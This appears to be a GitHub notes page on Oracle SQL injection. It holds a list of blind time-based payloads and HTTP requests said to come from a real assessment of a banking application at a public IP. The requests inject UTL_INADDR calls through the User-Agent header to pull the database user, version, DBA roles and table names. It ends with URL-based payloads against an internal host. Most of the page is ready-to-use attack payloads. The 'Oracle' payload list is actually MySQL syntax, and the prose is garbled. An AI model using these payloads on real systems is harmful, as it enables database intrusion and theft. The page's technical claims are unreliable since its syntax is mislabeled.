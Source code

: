 # Real world example of Oracle SQL Injection
When it come to conducting Orable Base SQL Injection. **The UTL_INADDR PL/SQL procedures is required enabling by default Oracle DBA**.
It provides an API to retrieve host names and IP addresses of local and remote hosts retrieving host names and IP addresses of remote hosts from PL/SQL.
When an Web application is being used Oracle Database. there is only possible to perform SQL Injection PL/SQL Syntax.
**IF condition THEN when_true [ELSE when_false] IF (1=1) THEN dbms_lock.sleep(3); ELSE dbms_lock.sleep(0); END IF; END**

# Basic Oracle Blind SQL Injection Payloads
```
1' and if(1=1, sleep(20), true)#
1' or if(1=1, sleep(20), true)#
1' and if(1=1, sleep(20), false)#
1' or if(1=1, sleep(20), true)#
1' and if(1=1, sleep(20), true) -- -
1' or if(1=1, sleep(20), true) -- -
1' and if(1=1, sleep(20), false) -- -
1' or if(1=1, sleep(20), true) -- -
```
# Real world example of Oracle SQL Injection 
Ths application security assessment was conducted by me 3 year ago. I released My Noted of Oracle Base SQL injection due to having beeb scarce  to make reference to Oracle Base SQL Injectin.
```
POST /B001/process.jsp HTTP/1.1
Host: 122.248.119.25
User-Agent: Mozilla/5.0 (utl_inaddr.get_host_address((select user from dual))--+) Gecko/20100101
Firefox/36.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://122.248.119.25/B001/banking?fldsegment=EN1
```

```
POST /B001/process.jsp HTTP/1.1
Host: 122.248.119.25
User-Agent: Mozilla/5.0 (utl_inaddr.get_host_address((select banner from v$version where rownum=1))--) Gecko/20100101
Firefox/36.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://122.248.119.25/B001/banking?fldsegment=EN1
```
```

POST /B001/process.jsp HTTP/1.1
Host: 122.248.119.25
User-Agent: Mozilla/5.0 (utl_inaddr.get_host_address((select username FROM user_role_privs WHERE granted_role='DBA';))--) Gecko/20100101
Firefox/36.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://122.248.119.25/B001/banking?fldsegment=EN1

```
```

POST /B001/process.jsp HTTP/1.1
Host: 122.248.119.25
User-Agent: Mozilla/5.0 (utl_inaddr.get_host_address((select owner, table_name FROM all_tables;))--) Gecko/20100101
Firefox/36.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://122.248.119.25/B001/banking?fldsegment=EN1
```


```
https://10.10.10.13:7001/product.jsp?=info ||UTL_INADDR.GET_HOST_NAME( (SELECT user FROM DUAL) )--
https://10.10.10.13:7001/product.jsp?=info ||UTL_INADDR.GET_HOST_NAME( (SELECT global_name FROM global_name;) )--
https://10.10.10.13:7001/product.jsp?=info ||UTL_INADDR.GET_HOST_NAME( (SELECT * FROM session_privs;(Retrieves Current Privs)) )--
https://10.10.10.13:7001/product.jsp?=info ||UTL_INADDR.GET_HOST_NAME( (SELECT global_name FROM global_name;) )--
```
